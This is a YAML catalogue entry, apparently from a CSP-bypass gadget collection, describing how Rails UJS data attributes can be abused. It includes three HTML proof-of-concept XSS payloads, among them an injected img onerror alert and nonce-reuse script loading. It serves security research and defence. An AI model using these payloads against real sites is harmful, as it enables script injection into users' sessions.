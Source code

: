 ```yaml
---
description: Ruby on Rails unobtrusive scripting adapter.
github: rails/rails/blob/main/actionview/app/assets/javascripts/rails-ujs.js
gadgets:
  Latest:
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - a-tag
      - data-attr
      - href-attr
      - nonce-csp
      - any-timing
    pocs:
      - description: |
          Rails [UJS](https://github.com/rails/rails/blob/main/actionview/app/assets/javascripts/rails-ujs.js) allows loading JavaScript files using `data-*` attributes. Furthermore, if a nonce is found using the selector [meta[name="csp-nonce"]](https://github.com/rails/rails/blob/3b8d4da1417c808758402e821811a2f41769f860/actionview/app/assets/javascripts/rails-ujs.js#L26C45-L26C65), it will automatically be added to the `<script>` tag. Since the event is delegated to the document, it can be triggered at any time.
          
          For this to works the server must respond with `Access-Control-Allow-Origin: *`, `Access-Control-Allow-Headers: *` and `Content-Type: application/javascript`.
        code: |
          <meta name="csp-nonce" content="secret">
          <script nonce="secret" src="https://cdn.jsdelivr.net/npm/@rails/ujs@7.1.3-4/app/assets/javascripts/rails-ujs.min.js"></script>

          <!-- user input -->
          <a data-remote="true" data-method="get" data-type="script" href="[current-location]/assets/xss/index.js">XSS</a>
      - description: An alternative payload that uses fewer attributes works by abusing the `data-method` attribute, which ends in an [innerHTML sink](https://github.com/rails/rails/blob/3b8d4da1417c808758402e821811a2f41769f860/actionview/app/assets/javascripts/rails-ujs.js#L414) (this one won't work without an `unsafe-inline` CSP directive).
        code: |
          <script nonce="secret" src="https://cdn.jsdelivr.net/npm/@rails/ujs@7.1.3-4/app/assets/javascripts/rails-ujs.min.js"></script>

          <!-- user input -->
          <a data-method="'><img src=x onerror=alert(1)>'" href="[current-location]/assets/xss/index.js">XSS</a>
      - description: Another interesting way to abuse this gadget (highlighted by [@ryotkak](https://x.com/ryotkak)) is by copy-pasting the payload into a [contenteditable](https://developer.mozilla.org/fr/docs/Web/HTML/Reference/Global_attributes/contenteditable) element.
        code: |
          <meta name="csp-nonce" content="secret">
          <script nonce="secret" src="https://cdn.jsdelivr.net/npm/@rails/ujs@7.1.3-4/app/assets/javascripts/rails-ujs.min.js"></script>

          <!-- past the payload here -->
          <div contenteditable="true"></div>
    more-info: |
      The full list of available `data-*` attributes is:
      - data-confirm
      - data-method
      - data-remote
      - data-disable
      - data-disable-with
      - data-url
      - data-params
      - data-with-credentials
      - data-type
      - data-turbo
      - data-disabled
    links:
      - https://github.com/rails/rails/issues/42164
      - https://gitlab.com/gitlab-org/gitlab/-/issues/213273
      - https://gitlab.com/gitlab-org/gitlab/-/issues/336138
      - https://blog.ryotak.net/post/dom-based-race-condition/
---
```

